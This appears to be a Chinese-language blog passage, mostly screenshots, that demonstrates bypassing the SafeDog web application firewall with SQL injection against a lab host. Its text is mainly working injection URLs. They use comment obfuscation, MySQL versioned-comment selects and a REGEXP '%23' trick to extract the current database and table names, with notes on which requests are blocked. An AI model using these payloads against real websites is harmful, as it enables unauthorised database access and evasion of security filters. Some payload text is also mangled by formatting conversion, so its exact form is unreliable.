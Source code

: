![](https://gitee.com/fuli009/images/raw/master/public/20230222174211.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174212.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174214.png)

  

## 获取当前数据库和用户

![](https://gitee.com/fuli009/images/raw/master/public/20230222174215.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174216.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174217.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174219.png)

数据库同理

http://192.168.111.16/index.php?id=-1/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50144select_ // _%2f%2f_ /1,database(/ _%2f%2f_ /)

## 获取数据库表

http://192.168.111.16/index.php?id=1/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50441select_ // _%2f%2f_
/1,group_concat(table_name)%20from%20information_schema.tables%20where%20/
_wad_ /table_schema=database(/ _//_ /)

不拦截

http://192.168.111.16/index.php?id=-1%20/ _%2a%%2f_ /union/ _%2f%2f_ //
_!50144select_ // _%2f%2f_
/1,group_concat(table_name),3%20%20%0a%20%20from%20information_schema.tables%20where%20table_schema=database(/
_//_ /)

拦截

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,group_concat(table_name),3  %0a
from information_schema.tables where table_schema=database(/ _//_ /)

这里其实REGEXP
"[…任意%23]"就行，在url解码%23变成了#，安全狗认为后面全都成为了注释符，带入到mysql层面其实%23只是正则的一个参数并不是注释符

![](https://gitee.com/fuli009/images/raw/master/public/20230222174220.png)
